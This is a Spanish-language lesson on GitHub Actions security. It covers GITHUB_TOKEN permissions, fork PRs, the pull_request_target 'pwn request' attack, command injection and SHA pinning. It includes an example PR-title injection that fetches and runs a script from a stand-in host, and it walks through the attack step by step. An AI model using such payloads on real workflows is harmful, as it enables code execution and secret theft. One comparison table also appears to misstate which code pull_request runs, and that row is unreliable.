

# Seguridad de los eventos: permisos, forks e inyección

> Esta es la teoría que separa un workflow que funciona de uno que no le regala
> el repositorio al primero que abra un pull request.

## 🎯 Objetivos

- Declarar `permissions` mínimas y saber por qué el defecto no basta
- Explicar qué recibe un PR que viene de un fork y qué no
- Distinguir `pull_request` de `pull_request_target` y reconocer el ataque
- Escribir steps inmunes a la inyección de comandos

## 1. Qué problema resuelve

Un workflow ejecuta código con credenciales del repositorio. Si el código o los
datos que procesa vienen de fuera —un PR de un desconocido, el título de un
issue— la pregunta ya no es "¿funciona?" sino "¿qué puede hacer quien lo
escribió?".

Tres mecanismos responden a eso: los **permisos** del token, el **aislamiento**
de los forks y la **higiene** al interpolar datos ajenos.

## 2. El `GITHUB_TOKEN`

Cada job recibe un token efímero: nace al empezar el job, muere al terminarlo y
solo sirve para ese repositorio. No hay que crearlo ni guardarlo: está en
`secrets.GITHUB_TOKEN` y en `github.token`.

Lo que sí hay que decidir es **cuánto puede hacer**.

```bash
gh api repos/{owner}/{repo}/actions/permissions/workflow
# {"default_workflow_permissions":"read","can_approve_pull_request_reviews":false}
```

Ese valor es el que se aplica **cuando el workflow no declara `permissions`**. Y
puede ser `write`: un repositorio configurado así le da a cualquier workflow
capacidad de escribir en el código, las releases y los packages, aunque solo
necesite leer.

### Declararlo siempre

```yaml
permissions:
  contents: read
```

La regla que hace esto potente está en la documentación:

> "If you specify the access for any of these permissions, all of those that are
> not specified are set to `none`."

Es decir: **declarar una sola línea pone todo lo demás a cero**. `contents: read`
no es "añade lectura de contenidos", es "lectura de contenidos y nada más".

### Los scopes

| Scope | Para qué lo necesitas |
|-------|----------------------|
| `contents` | Leer el repo (`checkout`), o escribir tags y commits |
| `pull-requests` | Comentar, etiquetar o modificar un PR |
| `issues` | Lo mismo con issues |
| `checks` | Publicar check runs propios |
| `statuses` | Publicar commit statuses |
| `packages` | Publicar en GHCR o npm de GitHub (Semana 12) |
| `id-token` | OIDC: desplegar sin secretos de larga vida (Semana 11) |
| `attestations` | Firmar procedencia de artefactos (Semana 14) |
| `security-events` | Subir SARIF de CodeQL (Semana 13) |
| `pages` | Desplegar a GitHub Pages (Semana 11) |

También existen `actions`, `deployments`, `discussions`, `artifact-metadata`,
`code-quality` y `vulnerability-alerts`. Cada uno acepta `read`, `write` o
`none`; `permissions: {}` los pone todos a `none`, y `read-all` / `write-all`
hacen lo contrario.

> [!TIP]
> Empieza por `permissions: {}` y añade solo lo que falle. Es más rápido que
> razonarlo, y acabas con el conjunto mínimo real en vez del que creías
> necesitar.

### Permisos por job

`permissions` se puede declarar a nivel de workflow o de job. Lo segundo es
mejor cuando un job necesita escribir y los demás no:

```yaml
permissions:
  contents: read          # el defecto para todos los jobs

jobs:
  test:
    runs-on: ubuntu-latest
    steps: [...]          # hereda contents: read

  etiquetar:
    permissions:
      contents: read
      pull-requests: write   # solo este job puede escribir en el PR
    runs-on: ubuntu-latest
    steps: [...]
```

## 3. Qué recibe un PR que viene de un fork

Aquí está la protección que GitHub te da de serie, y conviene no romperla:

> "With the exception of `GITHUB_TOKEN`, secrets are not passed to the runner
> when a workflow is triggered from a forked repository. The `GITHUB_TOKEN` has
> read-only permissions in pull requests from forked repositories."

Traducido:

| | PR de una rama del propio repo | PR de un fork |
|---|---|---|
| `GITHUB_TOKEN` | Según `permissions` | **Solo lectura**, pase lo que pase |
| `secrets.*` | Disponibles | **No llegan** |
| Se ejecuta código del PR | Sí | Sí |

Que el código del PR se ejecute **no es el problema**: se ejecuta sin
credenciales que robar. El problema aparece cuando alguien intenta saltarse eso.

## 4. `pull_request` frente a `pull_request_target`

| | `pull_request` | `pull_request_target` |
|---|---|---|
| Qué código se ejecuta | El de la **rama base** por defecto | El de la **rama base** |
| Contexto | El del PR | El del repositorio base |
| Token en PRs de un fork | **Solo lectura** | **Escritura** |
| Secretos en PRs de un fork | **No llegan** | **Sí llegan** |
| `github.event.pull_request` | Del PR | Del PR |

La documentación no se anda con rodeos:

> "Running untrusted code on the `pull_request_target` trigger may lead to
> security vulnerabilities. These vulnerabilities include cache poisoning and
> granting unintended access to write privileges or secrets."

### El ataque, paso a paso



1. Tu workflow usa `pull_request_target` "porque el token no tenía permisos"
2. Hace `actions/checkout` con `ref: ${{ github.event.pull_request.head.sha }}`
   para poder compilar el PR
3. Ejecuta `npm install`, o `pnpm install`, o cualquier cosa que lea el
   repositorio clonado
4. El atacante abre un PR desde su fork con un script `postinstall` en
   `package.json`
5. Ese script corre **con tu token de escritura y todos tus secretos** en el
   entorno

No hace falta ni `postinstall`: basta un `Makefile`, una configuración de linter
que cargue un plugin, o un script de test. Cualquier cosa del repositorio ajeno
que acabe ejecutándose.

### El cinturón de seguridad que GitHub añadió en 2026

En junio de 2026, `actions/checkout` cambió su comportamiento por defecto:

> "refuses to fetch fork pull request code in `pull_request_target` and
> `workflow_run` workflows"

Es decir: el paso 2 del ataque, que era el pivote de todo, **ahora falla por
defecto**. Para volver a permitirlo hay que declarar explícitamente el input
`allow-unsafe-pr-checkout`, que —en palabras del anuncio— está
*"intentionally named to be easy to spot in code review and static analysis"*.

| | |
|---|---|
| Desde cuándo | `actions/checkout` v7 (18 de junio de 2026), retroportado a v4.4.0, v5.1.0 y v6.1.0 el 20 de julio |
| Eventos cubiertos | `pull_request_target`, y `workflow_run` cuando el evento original era un `pull_request*` |
| Cómo se desactiva | `allow-unsafe-pr-checkout: true` |

> [!WARNING]
> Esto es una red de seguridad, **no un permiso para bajar la guardia**. El
> propio anuncio delimita lo que **no** cubre:
>
> - *"Pwn requests can be introduced in other ways outside of the scope of this
>   change"*: si haces el `git fetch` o el `gh pr checkout` a mano, no hay nada
>   que te frene
> - *"pwn requests triggered in other event types besides `pull_request_target`
>   (such as `issue_comment`) will not be blocked by this change"*
> - Y si pinneas por SHA una versión anterior a las citadas —que es lo correcto
>   por otras razones— **no tienes la protección**
>
> La regla de fondo no cambia: no ejecutes código ajeno con credenciales.

### Cómo usarlo bien

Reglas, en orden de importancia:

1. **Usa `pull_request`.** El 95 % de los casos no necesita otra cosa
2. Si necesitas `pull_request_target` (etiquetar PRs de externos, dar la
   bienvenida, comentar), **no hagas checkout del código del PR**
3. Si ves `allow-unsafe-pr-checkout: true` en un workflow, trátalo como lo que
   es: alguien desactivó una protección a propósito. Debe estar justificado por
   escrito o se retira
4. Si no queda más remedio que compilar código ajeno con secretos, sepáralo en
   dos workflows: uno con `pull_request` que compila sin credenciales y sube un
   artifact, y otro con `workflow_run` que lo procesa con permisos

## 5. Inyección de comandos

El fallo más fácil de cometer y el más fácil de evitar.

```yaml
# ❌ El título del PR lo escribe quien abre el PR.
- run: echo "Revisando ${{ github.event.pull_request.title }}"
```

`${{ }}` se sustituye **antes** de que el shell exista: GitHub genera el script
con el texto ya dentro. Un PR titulado

```
a"; curl -s http://malo.example/x.sh | bash; echo "
```

produce un script que ejecuta lo que el atacante quiera, **con los permisos de
ese job**. Y si el evento era `pull_request_target`, con tus secretos.

La defensa es una línea:

```yaml
# ✅ El valor llega como variable de entorno: texto, no código.
- env:
    TITULO: ${{ github.event.pull_request.title }}
  run: echo "Revisando $TITULO"
```

Campos que **siempre** son datos ajenos, aunque el PR sea tuyo hoy:

- `github.event.pull_request.title` y `.body`
- `github.event.issue.title` y `.body`
- `github.event.comment.body`
- `github.event.review.body`
- `github.event.head_commit.message` y cualquier nombre de rama
- `github.head_ref`

> [!CAUTION]
> Las comillas **no** salvan. `run: echo "${{ github.head_ref }}"` sigue siendo
> vulnerable, porque la sustitución ocurre antes del shell y el atacante puede
> cerrar la comilla. Solo `env:` funciona.

## 6. Actions de terceros

Un `uses:` ejecuta código de otro dentro de tu job, con tus permisos.

```yaml
# ❌ El tag v4 se puede mover a otro commit en cualquier momento
- uses: alguien/una-action@v4

# ✅ Un SHA no se mueve. El tag va en el comentario, para saber qué es
- uses: alguien/una-action@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2
```

Pinnear por SHA es lo que convirtió un incidente de cadena de suministro en un
susto para quien lo hacía, y en una filtración para quien no. La Semana 14 lo
desarrolla; aquí basta con la costumbre.

Comprobar a qué commit apunta un tag:

```bash
gh api repos/actions/checkout/tags \
  --jq '.[] | select(.name=="v7.0.1") | .commit.sha'
```

## 7. Antipatrones

| Antipatrón | Por qué duele | Qué hacer |
|------------|---------------|-----------|
| Workflow sin `permissions` | Hereda el defecto del repo, que puede ser escritura | Declararlas siempre |
| `permissions: write-all` | Anula toda la protección de un plumazo | El scope concreto que falte |
| `pull_request_target` "porque no tenía permisos" | Abre secretos a código ajeno | `pull_request` + `permissions` |
| Checkout del PR en `pull_request_target` | Es el ataque, literalmente | No lo hagas |
| `${{ github.event.* }}` dentro de un `run:` | Inyección de comandos | `env:` |
| Confiar en las comillas | La sustitución es previa al shell | `env:` |
| `uses: alguien/action@v1` en producción | El tag se puede mover | Pinnear por SHA |
| `allow-unsafe-pr-checkout: true` sin justificar | Desactiva la protección de 2026 a mano | Quitarlo, o justificarlo por escrito |
| `can_approve_pull_request_reviews` activo | Un workflow puede aprobar PRs | Desactivado salvo caso muy justificado |

## 8. Trucos

- **Ver el defecto del repositorio**:
  `gh api repos/{owner}/{repo}/actions/permissions/workflow`
- **Empezar por `permissions: {}`** y añadir solo lo que falle
- **Permisos por job**, no por workflow, cuando solo uno necesita escribir
- **Comprobar un pin**: `gh api repos/<owner>/<repo>/tags --jq '.[] | select(.name=="<tag>") | .commit.sha'`
- **Buscar interpolaciones peligrosas** en tus workflows:
  ```bash
  grep -rnE '\$\{\{ *github\.(event|head_ref)' .github/workflows/ | grep -v 'env:'
  ```
- **`zizmor`** y **`actionlint`** analizan workflows en busca de estos fallos;
  se integran como un check más (Semana 13)

## 📚 Recursos Adicionales

- [GitHub Docs — Secure use reference](https://docs.github.com/actions/reference/security/secure-use)
- [GitHub Docs — Automatic token authentication](https://docs.github.com/actions/security-for-github-actions/security-guides/automatic-token-authentication)
- [GitHub Security Lab — Preventing pwn requests](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
- [GitHub Security Lab — Untrusted input](https://securitylab.github.com/resources/github-actions-untrusted-input/)
- [GitHub Changelog — Safer `pull_request_target` defaults for actions/checkout](https://github.blog/changelog/2026-06-18-safer-pull_request_target-defaults-for-github-actions-checkout/) (junio de 2026)

## ✅ Checklist de Verificación

- [ ] Sabes qué pasa con los permisos no declarados cuando declaras uno
- [ ] Sabes qué recibe y qué no un PR que viene de un fork
- [ ] Puedes explicar el ataque de `pull_request_target` paso a paso
- [ ] Sabes qué bloquea `actions/checkout` desde 2026 y qué sigue sin bloquear
- [ ] Sabes por qué las comillas no protegen de la inyección
